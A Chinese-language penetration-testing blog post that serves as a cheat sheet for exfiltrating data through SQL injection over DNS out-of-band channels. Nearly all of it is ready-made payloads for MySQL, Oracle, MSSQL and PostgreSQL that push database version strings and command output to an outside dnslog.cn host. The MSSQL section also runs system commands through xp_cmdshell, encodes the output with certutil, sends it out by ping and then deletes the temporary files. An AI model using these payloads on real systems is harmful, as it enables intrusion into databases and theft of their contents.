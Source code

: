 ```yaml
---
layout: post
title: DNS外带数据之SQL注入
abbrlink: 699192e7138e41fb9163b0634d1f475f
tags: []
categories:
  - 渗透测试
  - 漏洞姿势
  - DNS外带数据
date: 1735051385358
updated: 1735228161309
---
```


# 注意点

- dns 查询有长度限制，所以当查询结果数据过长时需要截断
- 特殊符号，如@，一般先编码后再带出

# mysql

条件：

- Windows
- mysql.ini 中 secure\_file\_priv 必须为空，select @@secure\_file\_priv
- 适用于联合注入或堆叠注入\
  具体：

```python
利用 mysql (Windows 适用)中的 load_file() 函数
select load_file(concat("\\\\",version(),".1ndex.dnslog.cn//1ndex.txt"));

当查询的数据中有特殊符号时，可使用 hex() 函数外带，数据过长不行
select load_file(concat("\\\\",hex(version()),".qbhqxd.dnslog.cn//1ndex.txt"));
```

# oracle

条件：适用于联合注入或堆叠注入\
可用函数：

```python
● UTL_HTTP.REQUEST()
SELECT UTL_HTTP.REQUEST((SELECT * from v$version)||'.1ndex.dnslog.cn') FROM sys.DUAL;

● DBMS_LDAP.INIT()
SELECT DBMS_LDAP.INIT((SELECT * from v$version)||'.1ndex.dnslog.cn',80) FROM sys.DUAL;

● HTTPURITYPE()
SELECT HTTPURITYPE((SELECT * from v$version)||'.1ndex.dnslog.cn').GETCLOB() FROM sys.DUAL;

● UTL_INADDR.GET_HOST_ADDRESS()
SELECT HTTPURITYPE((SELECT * from v$version)||'.1ndex.dnslog.cn').GETCLOB() FROM sys.DUAL;
```

# mssql

条件：Windows、适用于堆叠注入

```python
id=1;DECLARE @host varchar(1024);SELECT @host=(SELECT SERVERPROPERTY('edition'))%2b'.1ndex.dnslog.cn'; EXEC('master..xp_dirtree "\'%2b@host%2b'\foobar$"');

id=1;DECLARE @host varchar(1024);SELECT @host=(SELECT SERVERPROPERTY('edition'))%2b'.1ndex.dnslog.cn'; EXEC('master..xp_fileexist "\'%2b@host%2b'\foobar$"');

id=1;DECLARE @host varchar(1024);SELECT @host=(SELECT SERVERPROPERTY('edition'))%2b'.1ndex.dnslog.cn'; EXEC('master..xp_subdirs "\'%2b@host%2b'\foobar$"');
```

```python
exec master..xp_cmdshell  "whoami>D:/temp%26%26certutil -encode D:/temp D:/temp2%26%26findstr /L /V ""CERTIFICATE"" D:/temp2>D:/temp3";

exec master..xp_cmdshell  "cmd /v /c""set /p MYVAR=< D:/temp3 %26%26 set FINAL=!MYVAR!.xxx.dnslog.cn %26%26 ping !FINAL!""";

exec master..xp_cmdshell  "del ""D:/temp"" ""D:/temp2"" ""D:/temp3""";
```

# postgreSQL

条件：Windows、适用于堆叠注入

```python
id=1;DROP TABLE IF EXISTS table_output; CREATE TABLE table_output(content text); CREATE OR REPLACE FUNCTION temp_function() RETURNS VOID AS $$ DECLARE exec_cmd TEXT; DECLARE query_result TEXT; BEGIN SELECT INTO query_result (select version()); exec_cmd := E'COPY table_output(content) FROM E\'\\\\\\\\'||query_result||E'.1ndex.dnslog.cn\\\\aaa.txt\''; EXECUTE exec_cmd; END; $$ LANGUAGE plpgSQL SECURITY DEFINER; SELECT temp_function();
```

开启 db\_link 扩展：

```python
id=1;CREATE EXTENSION dblink;SELECT * FROM dblink('host='||(SELECT version())||'.1ndex.dnslog.cn username=1ndex password=1ndex','SELECT 1ndex') RETURNS (result TEXT);
```

> 更新: 2023-04-23 21:40:17\
> 原文: <https://www.yuque.com/yuqueyonghuwrqimt/kmabi0/bggpot>
